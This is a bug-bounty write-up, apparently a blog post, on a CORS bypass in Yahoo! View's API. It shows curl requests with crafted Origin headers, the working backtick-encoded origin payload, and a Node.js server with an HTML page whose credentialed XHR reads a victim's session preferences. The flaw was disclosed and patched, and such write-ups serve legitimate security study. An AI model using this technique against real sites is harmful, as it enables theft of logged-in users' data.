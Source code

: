 ```yaml
---
layout: post
title: "Tricky CORS Bypass in Yahoo! View"
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Recently, HackerOne hosted their second Hack The World competition. During this time I decided to take a look at Yahoo's bug bounty program because I have heard good things about them and also due to the fact that their scope is pretty big. After finding a few issues in my.yahoo.com and getting paid for those, I decided I was going to test <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">Yahoo! View</a><br><br>
I decided to browse a bit on <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://view.yahoo.com</a> and look at what requests were being made. After about 2 minutes of clicking literally everything I could click and submitting as many forms as I could, I decided to look through everything Burp Suite logged.<br><br> 
I saw that the applicaiton  making API calls to <a href="https://api.view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://api.view.yahoo.com</a> and thanks to Burp Suite's passive monitoring, I also noticed that the application implemented a cross-origin resource sharing (CORS) policy.<br><br>According to the <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS">MDN Web Docs</a>, CORS "is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use."<br><br>
Since browsers enforce a Same-Origin Policy, which means that it only accepts ajax requests from accessing data from the same domain, Cross-Origin Resource Sharing allows sharing data with other sites that can be specified. <br><br>The initial request I saw in Burp's history was:
```bash
GET /api/session/preferences HTTP/1.1
Host: api.view.yahoo.com
------- snip -------
origin: https://view.yahoo.com
```
and the server's response was:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com
```
Since the server was reflecting the origin and with `Access-Control-Allow-Credentials)` set to `true`, if I could get the origin to be allowed, then I could steal data from the API.<br><br>
First, I tried just sending a the origin `sxcurity.pro`:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://sxcurity.pro'
```
The server responded without the Allow-Origin and Allow-Credentials.
<br><br>
Next, I tried sending `view.sxcurity.pro` as the origin:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.sxcurity.pro'
```
Still nothing.<br><br>
An idea came to mind, what if I tried `view.yahoo.com.sxcurity.pro`?
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com.sxcurity.pro'
```
Voila! Still **DID NOT** respond with the Allow-Origin or ACAC. I had one more payload in mind: `view.yahoo.comsxcurity.pro`. I sent it and to my dismay, nothing had changed.
<br><br><br>I was about to give up when I came up with the idea to send *two domains* in the origin header:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com sxcurity.pro'
``` 
To my surprise the server responded with:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com sxcurity.pro
```
I was intrigued and was trying to come up with a way that I could make this a valid domain name so I could exploit it. I tried adding some characters to replace the space between the two domains to see what the server responded with!
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%sxcurity.pro'
``` 
Response:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com%sxcurity.pro
```
This still wasn't exploitable because it wasn't valid.<br><br>
After a bit of asking around, <a href="https://twitter.com/mattaustin">Matt Austin</a> linked me to one of his <a href="https://hackerone.com/reports/255991">HackerOne Reports</a> to Brave Software. <br><br>
I decided to try using a **URL-Encoded backtick** / %60 since I saw it would be a valid subdomain (from his report) and I already saw that the origin was reflected when there was a percent sign.
<br>I sent:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%60cdl.sxcurity.pro'
```
The server's response:
```bash 
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://view.yahoo.com%60cdl.sxcurity.pro
```
Yes, it worked! I set up a wildcard on one of my domains in Route53. I opened up Firefox and visited http://view.yahoo.com%60cdl.hack-r.be and it didn't load! Yay, more problems. I tried in Chrome, IE, & Edge and it didn't work in them either. I got to a Mac and tried it in **Safari** and it finally worked!! HOWEVER, Apache decided it didn't like the request and to keep throwing a server error.<br><br>![problems](/images/problems-meme.jpg "Problems")<br><br>After playing around I decided to just create a simple server in NodeJS to serve my exploit page.<br>
<br>
Contents of **server.js**:
```javascript
const http = require('http')
const port = 6299
const fs = require("fs");


const requestHandler = (request, response) => {
  fs.readFile("index.html", function(err, data){
  response.writeHead(200, {'Content-Type': 'text/html'});
  response.write(data);
  response.end();
});
}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
  if (err) {
    return console.log('[+] ruh roh! something went wrong :(', err)
  }

  console.log(`[+] server is listening on port ${port}`)
})
```
and contents of **index.html**:
```html
<!DOCTYPE html>
<html>
<head><title>CORS</title></head>
<body>
<center>
<h2>Yahoo CORs Exploit</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://api.view.yahoo.com/api/session/preferences", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```
I ran it and tried loading the page again in Safari and it loaded perfectly. I clicked the "Exploit" button and it retrieved the data from the vulnerable API! woot woot!
<br><br>Here's the proof of concept video:
<br>
<iframe width="640" height="360" src="https://www.youtube.com/embed/lg31RYYG-T4" frameborder="0" gesture="media" allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (10/24/2017) Reported to Yahoo! via HackerOne
- (10/27/2017) Confirmed & awarded $100 on Triage
- (11/20/2017) Vulnerability Patched
- (12/1/2017) Awarded $400 bounty + a $100 bonus for a "great writeup and POC" (-Yahoo)  
<br><br>Although it was a low impact bug, it was definitely a learning experience and a fun challenge!<br><br> 
Thanks for reading,<br><br>
**Corben Douglas** (<font color="#E22A3C">@sxcurity</font>)
- https://hackerone.com/cdl
- https://twitter.com/sxcurity
- https://bugcrowd.com/c
- https://github.com/sxcurity

